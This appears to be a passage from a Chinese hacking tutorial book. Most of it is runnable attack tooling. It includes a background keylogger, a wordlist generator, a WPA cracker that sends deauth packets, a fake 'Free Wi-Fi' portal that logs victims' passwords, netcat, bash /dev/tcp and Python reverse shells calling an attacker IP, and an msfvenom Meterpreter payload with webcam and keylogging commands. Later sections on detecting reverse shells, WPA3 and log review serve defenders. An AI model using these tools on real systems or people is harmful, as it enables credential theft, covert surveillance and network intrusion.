键盘记录器通常用于监控网络使用情况和排除技术故障。另一方面，许多恶意软件使用键盘记录器来获取登录信息和其他私人数据。

## 安装 Pynput

首先，你需要安装一个名为`pynput`的特定库。要安装`pynput`，请在终端中输入以下命令。

```bash
pip3 install pynput
```

`pynput`库提供了监控和控制输入设备（主要是键盘）的能力。它允许你监听输入事件，例如按键。

## Python 键盘记录器

要创建键盘记录器，我将使用 nano 终端文本编辑器，输入：

```bash
nano keylogger.py
```

并添加以下代码：

```python
from pynput.keyboard import Key, Listener
import logging

logging.basicConfig(filename=("capture.txt"), level=logging.DEBUG, format=" %(asctime)s - %(message)s")

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

我不会用技术解释让你感到无聊。所以，这段代码创建了一个简单的键盘记录器，它捕获按键（你在键盘上输入的所有内容）并将其保存到名为`capture.txt`的文本文件中。

它使用`pynput`库进行键盘监控，并使用`logging`模块将日志消息写入文件。

现在，保存文件并使用以下命令启动键盘记录器脚本。

```bash
nohup python3 keylogger.py &
```

 


# 创建自定义字典文件


# 构建自定义字典生成器

在本步骤中，你将学习如何构建一个自定义的字典生成器，该生成器支持设置最小和最大字符长度。字典是一个包含常用密码的大型文本文件。

正如我之前提到的，一个流行的密码字典是 `rockyou.txt`。你可以在 Kali Linux 的 `/usr/share/wordlists` 目录下找到 `rockyou` 字典。现在，让我们开始吧。

我将创建一个新文件。

```
nano wordlist-generator.py
```

添加以下代码：

```python
import itertools
import argparse
import sys

def generate_wordlist(charset, min_length, max_length, output_file):
    """Generate a wordlist with the given character set and length range."""
    try:
        total_words = sum(len(charset) ** length for length in range(min_length, max_length + 1))
        with open(output_file, "w") as f:
            word_count = 0
            for length in range(min_length, max_length + 1):
                for combination in itertools.product(charset, repeat=length):
                    word = ''.join(combination)
                    f.write(word + '\n')
                    word_count += 1
                    # Update progress bar
                    progress = int((word_count / total_words) * 50)
                    sys.stdout.write(f"\r[{'=' * progress}{' ' * (50 - progress)}] {word_count}/{total_words} words")
                    sys.stdout.flush()
        print("\n[+] Wordlist generation complete.")
        print(f"[+] {word_count} words saved to '{output_file}'.")
    except Exception as e:
        print(f"[!] Error writing to file: {e}")
```

## 第一部分：代码功能解析

这个函数是脚本的核心。它接收以下参数：

*   一个字符集 (`charset`)。
*   一个最小长度和最大长度。
*   一个输出文件的名称。

然后，它生成该长度范围内所有可能的字符组合，并将它们逐行保存到文件中。这就是密码字典的制作方式。

## 第二部分：获取用户输入并运行生成器

```python
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Generate a wordlist.")
    parser.add_argument("-c", "—charset", required=True, help="Character set to use, e.g., abc123!@#")
    parser.add_argument("-min", "—min_length", type=int, required=True, help="Minimum word length")
    parser.add_argument("-max", "—max_length", type=int, required=True, help="Maximum word length")
    parser.add_argument("-o", "—output", required=True, help="Output file for the wordlist")
    args = parser.parse_args()
    try:
        charset = args.charset
        min_length = args.min_length
        max_length = args.max_length
        if min_length > max_length:
            raise ValueError("Minimum length cannot be greater than maximum length.")
        print(f"[+] Starting wordlist generation...")
        generate_wordlist(charset, min_length, max_length, args.output)
    except Exception as e:
        print(f"[!] Error: {e}")
```

这一部分就像是脚本的控制中心。它使用 `argparse` 通过命令行参数从用户那里收集输入：

*   `-c` 用于指定要使用的字符。
*   `-min` 和 `-max` 用于指定单词长度。
*   `-o` 用于指定输出文件名。

然后，它检查输入是否合理，并通过调用第一部分的函数来启动字典生成。

## 运行脚本

将第一部分和第二部分的代码复制到一个单独的 Python 文件（`wordlist-generator.py`）中。然后使用以下命令：

```
python3 wordlist-generator.py -c abc123 -min 4 -max 6 -o wordlist.txt
```

*   `-c abc123`：指定字符集（例如，字母、数字）。
*   `-min 4`：列表中单词的最小长度。
*   `-max 6`：列表中单词的最大长度。
*   `-o wordlist.txt`：保存生成字典的输出文件名。

字典将保存在指定的文件（`wordlist.txt`）中，包含给定字符集在长度范围内的所有可能组合。

输出如下：

```
[+] Starting wordlist generation...
[==============================   ] 7000/101507 words
[======================================] 101507/101507 words
[+] Wordlist generation complete.
[+] 101507 words saved to 'wordlist.txt'.
```

你可以使用 `ls` 命令查看字典文本文件。

## 使用示例

假设你正在测试一个 Wi-Fi 网络的安全性，并且你知道密码包含小写字母、数字和一些符号的混合。你可以使用以下命令生成一个字典：

```
python3 wordlist-generator.py -c abc123!@# -min 8 -max 12 -o wordlist.txt
```

这将创建所有可能的密码组合，长度为 8、9、10、11 和 12 个字符，使用 a、b、c、1、2、3、!、@ 和 #。

输出将保存到名为 `wordlist.txt` 的文件中，然后你可以使用 Hashcat 等工具来破解 Wi-Fi 密码。

  |  | 


# 使用 Python 自动化 WiFi 破解


现在，我将向你展示如何创建一个可以破解 WiFi 密码的 Python 脚本。该脚本将捕获 WPA/WPA2 握手包，然后使用提供的字典文件进行破解。

## 第一部分：Python 脚本

我将使用 nano 终端文本编辑器创建一个新文件。

```
nano wifi-cracker.py
```

添加以下代码：

```python
import subprocess
import time
import os
import re

# Validate the BSSID format (must look like 00:11:22:33:44:55)
def is_valid_bssid(bssid):
    return re.match(r'^([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}$', bssid) is not None

# Captures a handshake using airodump-ng and aireplay-ng
def capture_handshake(interface, bssid, channel, output_prefix):
    if not is_valid_bssid(bssid):
        print("Error: Invalid BSSID format.")
        return

    # Run airodump-ng to monitor the target network
    airodump_cmd = ['airodump-ng', '—bssid', bssid, '—channel', channel, '-w', output_prefix, interface]
    airodump_proc = subprocess.Popen(airodump_cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    try:
        time.sleep(5)  # Let airodump-ng initialize
        print("Sending deauth packets to capture the handshake...")
        # Send 10 deauth packets to force clients to reconnect
        deauth_cmd = ['aireplay-ng', '—deauth', '10', '-a', bssid, interface]
        subprocess.run(deauth_cmd)
        print("Waiting to capture the handshake...")
        time.sleep(30)  # Allow time for the handshake to be captured
    finally:
        airodump_proc.terminate()
```

在第一部分中，脚本从 Wi-Fi 网络捕获 WPA/WPA2 握手包。这是一个常见的黑客步骤，允许你稍后尝试使用字典破解 Wi-Fi 密码。

## 第二部分：破解捕获的握手包

```python
# Cracks the captured handshake with aircrack-ng
def crack_handshake(handshake_file, wordlist_file):
    if not os.path.isfile(handshake_file):
        print(f"Error: Handshake file '{handshake_file}' not found.")
        return
    try:
        subprocess.run(['aircrack-ng', '-w', wordlist_file, handshake_file])
    except Exception as e:
        print(f"An error occurred: {str(e)}")

# Simple command-line menu and user inputs
def main():
    print("WPA WiFi Cracker")
    print("====================")
    print("1. Capture and crack WPA handshake")
    print("2. Exit")
    choice = input("Enter your choice: ")
    if choice == "1":
        interface = input("Enter your wireless interface (e.g., wlan0): ")
        bssid = input("Enter the BSSID of the target network: ")
        if not is_valid_bssid(bssid):
            print("Error: Invalid BSSID format.")
            return
        channel = input("Enter the network's channel: ")
        output_prefix = input("Enter a name for the output file: ")
        wordlist_file = input("Enter the path to your wordlist file: ")
        capture_handshake(interface, bssid, channel, output_prefix)
        handshake_file = f"{output_prefix}-01.cap"
        print(f"Captured handshake file: {handshake_file}")
        crack_handshake(handshake_file, wordlist_file)
    else:
        print("Exiting...")

if __name__ == "__main__":
    main()
```

在这一部分中，脚本获取捕获的握手包文件，并使用 `aircrack-ng` 对其进行字典攻击。这是一种暴力破解方法，它会尝试列表中的密码，直到找到一个有效的密码。

## 运行脚本

将第一部分和第二部分的代码保存到一个文件中（例如 `wifi-cracker.py`）。打开一个终端，导航到包含脚本的目录，然后输入：

```
python3 wifi-cracker.py
```



选择选项 1 来捕获并破解握手包。




然后提供无线接口。你可以使用 `Iwconfig` 来查找无线接口名称。



接下来，你需要输入路由器的 MAC 地址和信道。为此，请在另一个终端中使用 `airodump-ng wlan0` 命令来扫描附近的无线网络，并找到你的目标。

以我为例，我将使用我自己的名为 "SkyNet" 的网络，其 BSSID 或 MAC 地址为 `58:D0:61:FB:94:20`。



在这里，输入将存储四次握手的文件名（data）。四次握手是接入点和客户端设备之间交换 4 条消息的过程。

如果你能捕获到四次握手，你就可以尝试破解它并揭示密码。最后，提供字典文件路径。



此时，攻击正在运行...



在这里你可以看到密码已被找到，是 "Letmein321"。

请记住，密码短语必须包含在你用于破解 WPA/WPA2 wifi 密码的字典文件中。如果它不在字典中，那么 `aircrack-ng` 将无法找到密钥。

|   |  |   |


# 伪造的强制门户（Flask）


在这一步，你将创建一个简单的 Flask Web 应用程序，它充当一个 "免费 Wi-Fi 登录" 页面。当有人访问强制门户网页并输入用户名和密码时，他们的登录信息将被保存在一个文本文件中。

使用 nano 终端文本编辑器创建一个新文件。

```
nano fake_captive_portal.py
```

添加以下代码：

```python
## fake_captive_portal.py
from flask import Flask, request, render_template_string
import datetime

app = Flask(__name__)

## HTML login page
login_page = '''
<!DOCTYPE html>
<html>
<head>
    <title>Free Wi-Fi Login</title>
</head>
<body style="text-align: center; margin-top: 100px; font-family: Arial;">
    <h2>Welcome to Free Wi-Fi</h2>
    <p>Please login to access the internet.</p>
    <form method="POST">
        <input type="text" name="username" placeholder="Username or Email"><br><br>
        <input type="password" name="password" placeholder="Password"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
'''

@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        log_data(username, password)
        return "<h3>Thank you! You are now connected to the internet.</h3>"
    return render_template_string(login_page)

def log_data(username, password):
    with open("captured_credentials.txt", "a") as f:
        time = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        f.write(f"[{time}] Username: {username}, Password: {password}\n")
        print(f"[+] Captured: {username} | {password}")

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)
```

这个 Python 脚本使用 Flask 创建了一个伪造的 Wi-Fi 登录页面，看起来像一个典型的免费公共热点。

当有人连接并提交他们的登录详情时，脚本会将这些凭据连同捕获的确切时间一起保存到一个文件中。然后它会显示一条友好的消息，说用户现在已连接到互联网。

## 运行门户

将代码保存到一个文件（`fake_captive_portal.py`），然后打开一个终端并运行：

```
python3 fake_captive_portal.py
```

---


伪造的门户页面已上线，可供同一网络上的任何人使用。



现在，我将打开 Firefox 浏览器，并使用我的本地 IP 地址访问登录页面。我将输入 "John" 作为用户名，'letmein321' 作为密码。

让我们回到运行脚本的终端。

---




在终端中，你可以看到我已成功捕获了登录凭据。这些相同的凭据也保存在当前目录中一个名为 `captured_credentials.txt` 的文件中。

|   |  |   |


# 第 5 章：反向 Shell


想象一下，你试图控制网络上的另一台计算机，以演示攻击者如何操作，从而更好地保护自己。黑客控制远程机器最简单的方法之一是通过一种叫做反向 shell 的东西。

反向 shell 就像一个远程控制隧道。不是攻击者连接到目标机器，而是目标机器连接回攻击者，反转了通常的连接方向。一旦连接，攻击者就可以获得对目标系统的命令行访问权限，几乎就像坐在它前面一样。

|   |  |   |


# 反向 Shell 如何工作


为了演示反向 shell 如何工作，我将使用一个名为 Netcat 的工具。它轻量、强大，非常适合设置反向 shell。让我们开始吧。

攻击者通过在终端中输入以下命令来设置一个监听器：

```
nc -lvnp 4444
```

这会在端口 4444 上启动一个监听器。Netcat 现在正在等待传入连接。

- `-l` 告诉 Netcat 进行监听。
- `-v` 用于详细输出。
- `-n` 避免 DNS 解析（更快）。
- `-p 4444` 设置要监听的端口。

## 从目标发起反向 Shell

假设你以某种方式诱骗目标运行了这个：

```
nc 192.168.31.152 4444 -e /bin/bash
```

这告诉 Netcat 连接回攻击者的 IP（`192.168.31.152`）的端口 `4444`，并将 `/bin/bash`（shell）附加到连接上。

输出：

```
Listening on 0.0.0.0 4444
Connection received on 192.168.10.158 51432
```

如果 `-e` 选项因安全原因默认禁用，你可以尝试：

```
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
```

一旦连接，你就可以远程控制目标计算机。

有时，shell 可能非常基础（缺少方向键或制表符补全等功能）。你可以这样升级它：

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

这为你提供了更好、更具交互性的 shell 体验。

|   |  |   |


# 使用 Python 创建反向 Shell


在本课中，你将学习如何创建一个简单而强大的 Python 反向 shell。这个脚本允许远程攻击者在目标机器上获得一个 shell。

思路很简单，你在目标机器（受害者）上运行一个简短的 Python 脚本。这个脚本会连接回攻击者的机器，而攻击者的机器正在一个端口上等待和监听。

一旦连接，攻击者就可以像坐在目标终端前一样输入命令。

你已经了解了什么是反向 shell。现在，是时候用几行代码从头开始构建一个了。

## 设置监听器

在目标上运行 Python 脚本之前，你需要监听连接。在你的攻击机上，使用：

```
nc -lvnp 4444
```

接下来，创建一个带有 `.py` 扩展名的脚本文件，并添加以下代码：

```python
import socket, subprocess, os

s = socket.socket()
s.connect(("ATTACKER_IP", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/bash"])
```

将 `ATTACKER_IP` 替换为你的攻击机的 IP 地址，例如 `192.168.52.131`。一旦脚本在目标机器上运行，它将连接回来，你会看到类似这样的内容：


| 来自 192.168.1.105 的连接
bash: 此 shell 中没有作业控制
$ whoami
targetuser
$ hostname
victim-pc |

现在你可以直接在目标机器上运行任何命令。

|   |  |   |


# 使用 Metasploit 创建反向 Shell


在本书的这一部分，你将学习如何创建一个在 Windows 机器上运行的反向 shell。当目标位于防火墙之后时，这种反向连接方式非常完美，因为是他们主动连接到你。让我们开始吧。

使用 `msfvenom` 生成一个会回调到你的攻击机的 Windows 可执行文件：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

- `LHOST`：你的攻击机 IP。
- `LPORT`：你将监听的端口。
- `-f exe`：Windows 的输出格式。
- `-o shell.exe`：你的载荷名称。

创建完成后，你需要找到一种方法将这个可执行文件传递给 Windows 目标。这可以通过 USB、电子邮件或共享文件夹来实现。

## 启动监听器

打开你的终端并输入：

```
msfconsole
```

然后配置处理器以等待连接：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

Metasploit 现在正在监听受害者运行你的 `shell.exe` 的时刻。一旦目标运行 `shell.exe`，你的终端将如下所示：

```
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Sending stage...
[*] Meterpreter session 1 opened
meterpreter >
```

你现在完全控制了这台 Windows 机器。从这里，你可以浏览文件、截屏、录制麦克风等等。以下是你可用的一些有用命令列表：

`shell`
进入常规的 Windows 命令提示符（功能非常强大）。

示例：
```
meterpreter > shell
```

`screenshot`
截取受害者屏幕的截图。

示例：
```
meterpreter > screenshot
```

`webcam_snap`
使用受害者的网络摄像头拍照（如果可用）。

示例：
```
meterpreter > webcam_snap
```

`keyscan_start`
开始记录按键。

示例：
```
meterpreter > keyscan_start
```

`keyscan_dump`
显示到目前为止捕获的按键。

示例：
```
meterpreter > keyscan_dump
```

Meterpreter 拥有强大的功能，远不止我在这里介绍的内容。在 Meterpreter 中运行 `help` 以查看完整的命令列表并开始尝试。

|   |  |   |


# 在 Linux 上检测反向 Shell


如果反向 shell 处于活动状态，系统通常会有一个到陌生 IP 和端口的出站连接。

试试这个：

```
ps aux | grep bash
```

或者：

```
netstat -tunp
```

查找类似这样的条目：

```
tcp  ESTABLISHED  0 0 192.168.1.50:41232  192.168.1.100:4444  users:(("bash",pid=3421,fd=3))
```

注意 `bash` 进程连接到远程机器 (`192.168.1.100:4444`)。这很可疑！

## 终止反向 Shell

一旦你识别出可疑的反向 shell 进程，例如不应该存在的 `bash` 或 `netcat` 连接，你可以通过几个快速步骤将其终止。

如果你看到一个可疑的连接，比如：

```
tcp  ESTABLISHED  0 0 192.168.1.50:45555  192.168.1.100:4444  users:(("bash",pid=2983,fd=3))
```

这里，PID 是 `2983`。一旦你有了 PID，运行：

```
kill -9 2983
```

`-9` 标志会立即强制终止进程。

如果有多个可疑进程，你可以全部终止：

```
pkill -f bash
```

或者更有选择性地：

```
pkill -f "/dev/tcp"
```

这会针对任何使用 TCP 技巧的 Bash 反向 shell。

反向 shell 可能很隐蔽，乍一看它们通常像正常的系统进程。但一旦你知道要寻找什么，发现和阻止它们就变得容易多了。

像 `ps` 和 `netstat` 这样的工具可以帮助你了解底层发生了什么，而一个快速的 `kill` 命令可以立即切断攻击者的连接。

|   |  |   |


# 第 6 章：安全


在最后一章中，你将学习使用 GPG 加密和解密文件，以及使用 Steghide 将敏感信息隐藏在图像中以保护秘密安全。

你还将学习使用 Wireshark 识别可疑的 Wi-Fi 活动，保护你的无线网络，并监控系统日志以发现任何异常。

|   |  |   |


# 使用 GPG 加密和解密文件


GPG 在大多数 Linux 发行版中都是开箱即用的。你可以在终端中使用 `gpg --version` 来验证版本。

对于基于 Debian 和 Ubuntu 的系统，使用以下命令安装 `gpg` 包：

```
apt install gpg
```

## 加密文件

加密文件的快速方法是使用 `-c`（创建）选项运行 `gpg` 命令。



在我的例子中，我将使用以下命令加密 `Credit-Cards.txt` 文件。

```
gpg -c Credit-Cards.txt
```



GPG 会要求你为要加密的文件输入密码（两次）。



此时，如果你输入 `ls` 命令，你可以看到原始文件完好无损，`Credit-Cards.txt`，并且它为新加密的文件添加了 `.gpg` 扩展名。

你应该删除原始文件 `Credit-Cards.txt`，这样加密文件就是其中包含信息的唯一来源。

现在让我们尝试使用 `nano` 文本编辑器打开加密文件。

```
nano Credit-Cards.txt.gpg
```


系统将提示你输入密码以解密文件。


如你所见，文本文件已成功解密。

`gpg` 工具有很多选项，但加密和解密很容易操作，只需要你知道两个选项即可快速使用：创建或加密 (`-c`)，解密 (`-d`)。

|   |  |   |


# 使用 Steghide 将秘密数据隐藏在图像中


Steghide 是一种隐写术工具，它使用密码将秘密文件隐藏在图像或音频文件中。支持 BMP 和 JPEG 图片类型，以及 AU 和 WAV 音频格式。

当你想发送加密消息或隐藏个人数据时，此工具非常有用。

## 安装

要安装 Steghide，请在你的 Linux 终端中使用以下命令。

```
apt install steghide
```

Steghide 现在应该已安装在你的系统上。你可以使用 `steghide --help` 命令来查找所有选项。

## 将数据嵌入图像

在这一步中，我创建了一个简单的文本文件 (`secretpass.txt`)，其中包含一些密码，我将把它嵌入到我的图像文件 (`warcraft3.jpg`) 中。


要嵌入文件，请使用以下命令：

```
steghide embed -ef secretpass.txt -cf warcraft3.jpg -p letmein
```

参数分解如下：

- `-ef` 指定你想要隐藏的文件。在我的例子中是 `secretpass.txt`
- `-cf` 是数据嵌入到的文件。在这个例子中，我将其嵌入到名为 `warcraft3.jpg` 的图像文件中。


● `-p` 用于指定密码。任何试图从图像中提取数据的人都需要输入该密码。


文本文件现已嵌入图像中。

## 从图像中提取数据

要提取隐藏的数据，请使用以下命令：

```
steghide extract -sf warcraft3.jpg -p letmein
```


这里可以看到，我已从 `warcraft3.jpg` 图像中提取了 `secretpass.txt`。嵌入的文本文件将被提取并写入当前目录。

你可以使用 `ls` 命令查看该文件。现在我将使用 nano 文本编辑器打开 `secretpass.txt` 文件。

```
nano secretpass.txt
```


如你所见，这个文件包含了我的秘密密码。

将秘密信息或密码隐藏在媒体文件中，实际上只需片刻。

|   |  |   |


# 使用 Wireshark 检测恶意 Wi-Fi 攻击


由于 Wi-Fi 工作方式的弱点，使用伪造取消认证数据包的工具来干扰大多数 Wi-Fi 网络极其容易。

大多数常见工具如 `aireplay-ng` 或 `MDK3` 通过向目标发送大量取消认证数据包来实现这一点，这将随时断开任何客户端与网络的连接。这样做只需要一个可以设置为监听模式的无线网络适配器和一个简单的命令。

要开始检测这些攻击，我将使用 Wireshark 来嗅探该区域的数据包，并通过过滤来区分数据包类型。如果你没有 Wireshark，可以免费从 [wireshark.org](https://www.wireshark.org/) 下载该工具。

## 使用 Wireshark 捕获数据包

打开你的 Linux 终端并输入 `wireshark`，你将看到下面的菜单。


首先，选择你将用于捕获数据包的网络接口。在我的例子中，我使用的是 `wlan0mon`。然后点击左上角的“开始捕获数据包”。

在这个例子中，让我们假设攻击者将使用 `aireplay-ng` 通过以下命令将无线客户端从接入点（路由器）踢出。

```
aireplay-ng -0 0 -a 3A:43:3D:BF:B1:90 wlan0mon
```


- `-0` 表示取消认证。
- `-a 3A:43:3D:BF:B1:90` 是接入点的 MAC 地址。
- `wlan0mon` 是处于监听模式的无线接口名称。

现在让我们回到 Wireshark 并停止捕获过程。要检测和查找无线网络上的取消认证数据包，请使用以下过滤器。

```
wlan.fc.type_subtype == 12
```


此时，你将知道有人正试图将其他客户端从网络中取消认证，以便让他们重新认证，并在重新认证时收集 WPA/WPA2 四次握手。

这是一种已知的用于入侵基于 PSK（预共享密钥）的无线网络的技术。一旦攻击者收集到四次 WPA 握手，攻击者就可以尝试破解它，获取明文密码并访问网络。

Wireshark 是可视化 Wi-Fi 攻击的绝佳方式，它允许任何人以最少的工作量查看攻击何时发生以及涉及哪些类型的 Wi-Fi 数据包。

|   |  |   |


# 保护你的 Wi-Fi 免受暴力破解攻击


黑客入侵 Wi-Fi 网络最简单的方法之一是使用暴力破解或字典攻击，他们使用包含大量常见密码的列表对你的网络进行尝试，直到找到正确的密码。

因此，你需要考虑在路由器上实施一些更改，以保护自己免受入侵者的侵害。

## 切换到 WPA3

第一道防线是使用 WPA3，这是最新的 Wi-Fi 安全协议。

WPA3 旨在防御离线字典攻击，即攻击者反复尝试猜测密码。这是通过更强的加密实现的。

即使使用了弱密码，WPA3 的加密方法也使攻击者破解密码的难度显著增加。

### 启用 WPA3

● 打开浏览器并访问你的路由器 IP 地址（通常是 `192.168.0.1` 或 `192.168.1.1`）。

● 使用管理员凭据登录。

● 转到无线设置或安全设置。

● 将安全模式从 WPA2 更改为 WPA3-Personal。

● 保存更改并重新连接你的设备。


因此，如果你的路由器和设备支持，升级到 WPA3 是确保无线网络最高安全级别的推荐步骤。

## 创建复杂密码

如果你的密码是像 `qwerty` 或 `superwifi` 这样的弱密码，仅靠 WPA3 是无法拯救你的。黑客使用包含数百万个常见密码的字典。

通过混合大小写字母、数字和符号来构建强密码，并力求达到 16 个字符或更多。

● 好的例子：`D7$f!wAq9@rPz3Lk`

● 坏的例子：`mypassword2025`

你的密码越长、越随机，即使是强大的计算机也越难破解它。

通过将 WPA3 加密与真正复杂、随机的密码相结合，你正在为任何试图暴力破解进入你网络的人制造难以置信的困难。

|   |  |   |


# 关注你的日志


保护你的 Linux 系统最明智的方法之一是关注你的日志。每当发生任何事情（登录尝试、新进程、奇怪的错误）时，它通常会被记录在 `/var/log` 中。

你可以使用以下命令读取日志：

```
cat /var/log/auth.log
```

要实时查看日志，请使用：

```
tail -f /var/log/auth.log
```

查看失败的登录尝试：

```
grep "Failed password" /var/log/auth.log
```

示例输出：

```
May 20 10:22:33 kali sshd[3456]: Failed password for root from 192.168.1.100 port 53421 ssh2
```

## 使用 Logwatch 汇总日志

你并不总是想逐行阅读日志。这就是 Logwatch 的用武之地。它通过每日电子邮件总结日志活动，以便你可以监控异常行为。

使用以下命令安装它：

```
apt install logwatch
```

然后运行：

```
logwatch—detail high—mailto you@example.com—range today
```

这将向你显示如下摘要：

```
SSH :Invalid login attempts: 12Successful logins: 2Apache :404 errors: 20Suspicious requests: 3
```

你将获得当天任何奇怪错误、登录尝试或系统事件的完整摘要。

## 要点总结

你已经读到了本书的结尾，这值得骄傲！在这些章节中，你从基础的 Linux 命令进阶到掌握高级黑客技术。

你学会了如何入侵 Wi-Fi 网络、破解密码哈希值，以及使用 Python 创建自己的工具。你探索了反向 Shell 的力量，并发现了隐藏和保护敏感数据的方法。

到现在，你应该已经打下了坚实的基础，能够理解黑客的思维方式，并具备更好地保护自己系统的技能。

谢谢！

